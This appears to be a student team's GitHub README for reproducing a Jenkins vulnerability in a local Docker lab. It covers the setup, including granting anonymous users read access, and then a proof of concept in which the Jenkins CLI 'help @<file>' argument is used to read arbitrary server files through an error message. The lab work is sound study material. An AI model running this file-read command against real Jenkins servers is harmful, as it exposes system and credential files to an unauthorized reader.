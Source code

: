 # CVE2_Jenkins_RCE
 Repo for CVE S2 Team 1 -- working on a Jenkins exploit

# Setting Up Jenkins
- Run "docker-compose build && docker-compose up -d"
- Navigate to http://localhost:8080, you will be prompted for an admin password
- Open a shell in the jenkins docker container (NOT THE POSTGRES ONE)
    - "docker exec -it <container_id> bash"
    - cd to directory listeed on the Jenkins page, acquire the password
- Set up a basic admin account (remember the password) and install default plugins 
-Configure anonymous users with basic permissions by going to Manage Jenkins > Security 
	- Set authorization type to "Matrix-based"
	- Allow anonymous users to read "Overall" and "Job"


#  Recreating the PoC
- Place a dummy file in the Jenkins system by opening a shell in the docker container (save the root path)
- Downloaded CLI client using "curl -O http://localhost:8080/jnlpJars/jenkins-cli.jar"  
- Execute "java -jar jenkins-cli.jar -s http://localhost:8080/ help @<TARGET_FILE_PATH>"
- If successful, you should get an error message "ERROR: No such command" followed by the file content


	
